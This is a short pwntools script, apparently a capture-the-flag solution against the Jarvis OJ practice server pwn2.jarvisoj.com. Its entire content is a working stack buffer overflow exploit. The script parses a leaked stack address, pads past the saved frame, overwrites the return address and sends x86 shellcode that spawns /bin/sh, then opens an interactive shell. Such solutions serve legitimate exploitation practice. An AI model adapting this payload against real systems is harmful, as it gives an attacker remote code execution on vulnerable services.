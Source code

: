 from pwn import *
sh = remote('pwn2.jarvisoj.com', 9877)

line = sh.readline()

address = int(line[len("What's this:"):-2], 16)

print address

junk = 'a' * (0x88+4)

retaddr = address + 0x88 + 4 + 4

shellcode = "\x31\xc0\x31\xd2\x31\xdb\x31\xc9\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80\n"

payload = junk + p32(retaddr) + shellcode

sh.send(payload)

sh.interactive()
